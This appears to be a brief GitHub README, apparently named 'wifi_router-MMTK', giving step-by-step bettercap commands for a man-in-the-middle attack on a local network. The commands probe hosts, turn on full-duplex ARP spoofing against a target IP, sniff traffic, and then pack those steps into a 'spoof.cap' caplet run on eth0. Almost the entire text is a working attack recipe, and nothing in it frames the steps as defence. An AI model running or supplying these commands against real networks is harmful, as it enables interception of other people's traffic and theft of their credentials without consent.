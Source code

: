 # wifi_router-MMTK

     bettercap -iface wlan0
     help
     net.probe on 
     net.show

    
    help arp.spoof
    arp.spoof.fullduplex true 
    
    set arp.spoof.targets [ vigtim ip]
    arp.spoof on
    net.sniff on

    



# Automate BetterCAP using Caplets
To be more efficient on your work, you can automate the modules setup part by creating a simple Caplet file(file.cap) and adding the commands per line.

## Create the caplet:

touch spoof.cap

## Add the commands and save it :

nano spoof.cap

   net.probe on
   
   set arp.spoof.fullduplex true 
   
   set arp.spoof.targets 10.0.2.5
   
   arp.spoof on
   
   set net.sniff.local true
   
   net.sniff on


As you can see is the same commands in order that you used previously.

## Start the Bettercap using the spoof Caplet that you created:

    bettercap -iface eth0 -caplet spoof.cap
